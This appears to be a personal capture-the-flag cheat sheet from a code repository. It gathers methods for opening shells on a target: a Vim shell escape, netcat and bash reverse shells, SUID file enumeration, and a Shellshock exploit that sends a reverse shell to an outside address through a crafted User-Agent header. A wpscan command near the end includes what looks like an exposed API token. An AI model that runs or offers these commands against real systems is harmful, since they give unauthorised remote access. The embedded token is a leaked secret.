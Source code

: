 // These are actual notes, and not relevant to the notes app.

# CTF Notes

## Opening a shell
1. Vim : !/bin/bash
2. netcat reverse shell _(see below)_
3. Bash reverse shell
4. Bash shellshock, in cgi and sometimes [ssh](https://resources.infosecinstitute.com/bash-bug-cve-2014-6271-critical-vulnerability-scaring-internet/)

* list binaries with SUID bit set:

      find / -perm -u=s -type f 2>/dev/null
      
* list files owned by an account:

      find / -user <username> 2>/dev/null

#### Netcat reverse shell
On the target machine shell : `nc <host> <any port> -e /bin/bash`

On your machine: `nc -lvp <port no>`

#### Bash reverse shell

      bash -i >& /dev/tcp/<ip>/4444 0>&1
#### Bash shellshock

Test if vulnerable:

    curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://<ip>/cgi-bin/test/test.cgi
To get shell: (do `nc -lvp 443` on your machine first)

    curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.86.99/443 0>&1' http://<ip>/cgi-bin/test/test.cgi

## Wordpress
      wpscan --api-token 2XiA11eRs5ryfHlZ2sX4wQuNWsdME48fpvxt9nlsnfs --url <url>
